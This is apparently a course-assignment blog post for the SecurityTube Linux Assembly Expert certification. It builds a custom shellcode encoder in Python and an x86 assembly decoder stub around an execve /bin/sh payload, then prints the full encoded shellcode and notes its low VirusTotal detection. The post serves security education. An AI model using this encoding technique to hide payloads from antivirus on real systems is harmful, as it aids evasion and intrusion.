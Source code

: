```yaml
---
layout: single
title: "SLAE: Shellcode Encoder"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-23
header:
  #image: /assets/images/SHELLCODING32.png
  thumb: /assets/images/SHELLCODING32.png
  teaser: /assets/images/SHELLCODING32.png
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_2)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532


This assignment will see us create and confirm the execution of a custom shellcode encoder. The payload will be a simple execve syscall calling //bin/sh as below:

![execve](/assets/images/SLAE_4/1.JPG)

First we will need to encode the raw shellcode, and then write a decoder in assembly which we will extract and prepend to our encoded shellcode. 

This is known as a "[decoder stub](http://uninformed.org/index.cgi?v=9&a=3&p=4)", it essentially runs prior to the encoded shellcode upon execution, and by the time the payload is reached is is decoded and ready to go.

#### Encoder:
After a lot of trial and error, I opted for 2 very simple techniques spliced together.

First, I modified Vivek's python script to take our shellcode and then xor each byte before incrementing them by 3 as below:

```
#!/usr/bin/python
# XOR all bytes then increase them by 3
# Python Encoder 

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")


encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
	x = x^0xaa
	encoded += '\\x'
	encoded += '%02x' % (x+3) # %02x tells format() to use at least 2 digits in hex

	encoded2 += '0x'
	encoded2 += '%02x,' % (x+3)


print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

We run our script with the shellcode and get out encoded payload:

![execve](/assets/images/SLAE_4/1.JPG)


#### Decoder:

Using the same tricks from previous assignments, I was able to write a simple yet effective decoder.

```
global _start			

section .text
_start:

	jmp short call_shellcode ; jump to call_shellcode, call decoder
decoder:
	pop esi ; (because we jumped, the next address is that of our shellcode)
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov cl, 25 ; set our loop length (equal to that of our generated shellcode)

decode2:
	sub byte [esi], 0x03
	xor byte [esi], 0xaa
	inc esi ; increment esi to run through all bytes
	loop decode2
	jmp short EncodedShellcode ; once complete jump into out decoded payload!



call_shellcode:

	call decoder
	EncodedShellcode: db 0x9e,0x6d,0xfd,0xc5,0x88,0x88,0xdc,0xc5,0xc5,0x88,0xcb,0xc6,0xc7,0x26,0x4c,0xfd,0x26,0x4b,0xfc,0x26,0x4e,0x1d,0xa4,0x6a,0x2d

```

We now pull the shellcode from our compiled decoder, which will altogether yield both the decoder stub and payload

```objdump -d ./insertion-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x14\x5e\x31\xc0\x31\xdb\x31\xc9\xb1\x19\x80\x2e\x03\x80\x36\xaa\x46\xe2\xf7\xeb\x05\xe8\xe7\xff\xff\xff\x9e\x6d\xfd\xc5\x88\x88\xdc\xc5\xc5\x88\xcb\xc6\xc7\x26\x4c\xfd\x26\x4b\xfc\x26\x4e\x1d\xa4\x6a\x2d"
```
The complete shellcode goes in our c program, and we test the decoder stub:

![shellcode_in_c](/assets/images/SLAE_4/3.JPG)

![execution](/assets/images/SLAE_4/4.JPG)

Although I opted to try and keep this as simple as possible, the results from [VirusTotal](https://www.virustotal.com/gui/file/8905dfb42a756e8d155aa696e6d4b39259ffecc6d8075d80885adbc8d9f816d5/detection) were not that bad.

![virus_total](/assets/images/SLAE_4/5.JPG)
